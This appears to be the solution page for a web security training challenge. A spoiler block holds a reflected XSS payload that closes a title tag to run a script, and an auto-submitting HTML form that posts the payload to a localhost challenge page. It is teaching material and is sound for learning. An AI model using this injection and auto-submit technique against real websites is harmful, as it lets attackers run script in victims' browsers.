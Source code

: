 # Challenge 2
Solution and further references for *challenge 2*.

<details>
 <summary>Spoiler: Solution for challenge 2</summary>

**Payload**:
```html
</title><script>alert(document.domain)</script>
```

**Exploit**:
```html
<html>
  <body>
    <form action="http://127.0.0.1/challenge2.php" method="POST" id="attackForm">
      <input type="hidden" name="q" value="&lt;&#47;title&gt;&lt;script&gt;alert&#40;document&#46;domain&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  <script>attackForm.submit()</script>
  </body>
</html>
```
</details>

## References
Additional information:
* https://content-security-policy.com/examples/meta/